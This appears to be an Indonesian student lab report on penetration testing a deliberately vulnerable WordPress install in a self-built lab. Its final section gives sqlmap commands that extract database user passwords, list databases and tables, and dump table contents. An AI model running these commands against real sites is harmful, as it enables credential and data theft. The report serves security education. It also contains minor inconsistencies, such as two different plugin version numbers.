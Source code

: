 ##Pendahuluan

##Dasar Teori
###Sistem Operasi yang Digunakan
####1. Ubuntu 14.04.2 (Server Version)
Ubuntu Server adalah salah satu varian dari distro linux Ubuntu yang didesain untuk diinstall di server. Ubuntu Server tidak menyediakan GUI, yang ada hanya CLI (Comand Line Interface). Ubuntu Server digunakan untuk menangani memori sampai puluhan Giga ataupun menangani Multicore CPU.

####2. Ubuntu 15.10 (Desktop Version)
Ubuntu 15.10 (Willy Werewolf) merupakan salah satu versi dari ubuntu yang diluncurkan pada publik tanggal 22 Oktober 2015. 

####3. Wordpress 3.8.5
WordPress adalah sebuah aplikasi sumber terbuka (open source) yang sangat populer digunakan sebagai mesin blog (blog engine). WordPress dibangun dengan bahasa pemrograman PHP dan basis data (database) MySQL. PHP dan MySQL, keduanya merupakan perangkat lunak sumber terbuka (open source software).

####4. Spider Video Player 1.5.16
Spider Video Player adalah salah satu plugin WordPress terbaik untuk menambah video di website. Spider Video Player dapat mengorganisir video-video ke dalam sebuah playlist dan memungkinkan pengguna untuk memilih layout yang diinginkan. Spider Video Player menyediakan user interface yang mudah, dan menggabungkan semua fitur yang umum untuk pemutar video yaitu pilihan kualitas video, sharing, full screen, shuffle dan lain-lain.

####5. League Manager 3.9.1.1
League Manager adalah sebuah plugin WordPress untuk mengelola suatu liga olahraga dan menampilkannya di website.

####6. SQLMap
Sqlmap adalah tools opensource yang mendeteksi dan melakukan exploit pada bug SQL injection secara otomatis. dengan melakukan serangan SQL injection seorang attacker dapat mengambil alih serta memanipulasi sebuah database di dalam sebuah server.

####7. WPScan
WPScan adalah scanner keamanan yang memeriksa keamanan WordPress menggunakan metode “black box”.
Fitur utama: pencacah username, multithreaded password bruteforcing, pencacah versi plugin WordPress dan pencacahan kerentanan sistem.
Disini kita akan menunjukkan bagaimana melakukan audit keamanan pada installasi WordPress dengan nama pengguna “mike” yang memiliki password lemah dan menggunakan blog plugin yang rentan.

##Instalasi Wordpress
Sebelum memulai menginstal wordpress, kami menginstal DBMS MySQL terlebih dahulu. Kemudian kami membuat database di MySQL untuk wordpress bernama "wordpress".<br/>
![](images/1_create_database.PNG?raw=true)<br/>
Mulai menginstall wordpress dengan mengetikkan syntax sudo apt-get install wordpress<br/>
![](images/2_install_wordpress.PNG?raw=true)<br/>
Setelah wordpress tterinstall, lakukan konfigurasi wordpress melalui browser <br/>
![](images/3_configure_wordpress_in_browser.png?raw=true)<br/>
Konfigurasi wordpress juga dilakukan pada file /etc/apache2/sites-available/wordpress.conf sesuai gambar di bawah ini<br/>
![](images/3_1_wordpress_conf.PNG?raw=true)<br/>
Buat file konfigurasi di directory /etc/wordpress dengan nama file config-[domain].php sesuai gambar di bawah ini<br/>
![](images/3_2_config_ipwordpress_php.PNG?raw=true)<br/>
Setelah sukses melakukan instalasi wordpress maka kita akan diminta untuk memasukkan username dan pasword untuk bisa login ke wordpress melalui browser<br/>
![](images/4_success_install_wordpress.png?raw=true)<br/>
Untuk dapat login sebagai admin ketikkan, domain_ip/wordpress/wp-login.php<br/>
![](images/login wordpress1.png?raw=true)<br/>
Kemudian akan muncul tampilan dasboard admin sebagai berikut<br/>
![](images/dashboard.png?raw=true)<br/>

##Instalasi Plugin
Untuk menginstall plugin, klik plugins<br/>
![](images/plugins.png?raw=true)<br/>
Untuk menambahkannya klik add new<br/>
![](images/plugins add.png?raw=true)<br/>
Cari plugin yang akan diinstall<br/>
![](images/plugins search.png?raw=true)<br/>
Ketika sudah menemukan plugin yang dinginkan, klik install<br/>
![](images/install plugin.png?raw=true)<br/>
Untuk mengetahui plugin apa saja yang telah terinstall klik installed plugins<br/>
![](images/plugins view.png?raw=true)<br/>

Pada tugas ini, kami menginstall video player 1.5.18 yang vulnerability-nya telah diketahui.<br/>

##Instalasi Tools SQL Injection
UNtuk menginstall sqlmap download tarball dengan syntax wget "https://github.com/sqlmapproject/sqlmap/tarball/master" --output-document=sqlmapproject-sqlmap-0.9-3671-gdcaad75.tar.gz. Setelah berhasil mendownload tarball, lakukan ekstrasi<br/>
![](images/7_install_sqlmap_step1.png?raw=true)<br/>
Untuk menjalankan SQLmap masuk ke folder sqlmap sebagai root kemudian ketikkan perintah python sqlmap.py --version. SQLmap siap digunakan<br/>
![](images/8_install_sqlmap_step2.png?raw=true)<br/>
Untuk menginstal wpscan download beberapa library yang dibutuhkan. Lakukan command line seperti di bawah ini<br/>
> apt-get install libcurl4-gnutls-dev libopenssl-ruby libxml2 libxml2-dev libxslt1-dev ruby-dev<br/>

> git clone https://github.com/wpscanteam/wpscan.git<br/>

> cd wpscan<br/>

> sudo gem install bundler && bundle install --without test development<br/>

![](images/6_install_wpscan_step2.png?raw=true)<br/>

##Uji Penetrasi SQL Injection
Uji penetrasi hanya bisa dilakukan dengan sqlmap, sedangkan wpscan tidak bisa. Hal ini dikarenakan versi ruby dari pc penetrasi tidak support dengan wpscan. Namun ketika mencoba mengupadate ruby, hasilnya eror.

Untuk mengetahui password dari databse wordpress ketikkan syntax:
> python sqlmap.py -u "[domainip/alamatwordpress]" --batch --password <br/>

maka akan keluar password dari setiap user di dbms server. 

Untuk mengetahui database yang ada di server ketikkan syntax:
> python sqlmap.py -u "[domainip/alamatwordpress]" --batch --dbs <br/>

maka akan keluar database yang berada di server.

Untuk mengetahui tabel apasaja yang ada di suatu database ketikkan syntax:
> python sqlmap.py -u "[domainip/alamatwordpress]" --batch --tables -D [namadatabase] <br/>

maka akan keluar tabel pada suatu database yang berada di server.

Untuk mmengambil data dari server kita dapat melakukan dumping file dengan mengetikkan syntax:
> python sqlmap.py -u "[domainip/alamatwordpress]" --batch --dump -T [namatabel] <br/>



##Kesimpulan dan Saran
####Kesimpulan:
- sqlmap dan wpscan digunakan untuk melakukan penerasi sqlinjection
- Jika menggunakan kali linux maka tidak perlu melakukan instalasi di atas. Namun beberapa konfigurasi dan setting perlu dilakukan apabila tiddak menggunakan kali linux
- Beberapa plugin pada wordpress dapat menyebabkan vulnerability pada server wordpress dan menyebabkan lebih mudah diserang

####Saran:
- Untuk menjaga keamanan data pada server wordpress, administrator sebaiknya menggunakan lastest update version dari plugin yang akan digunakan pada wordpress sehingga tingkat keamanannya lebih terjamin
- Penggunaan sqlmap untuk menyerang vulnerability dari wordpress dapat dieksplor lebih dalam



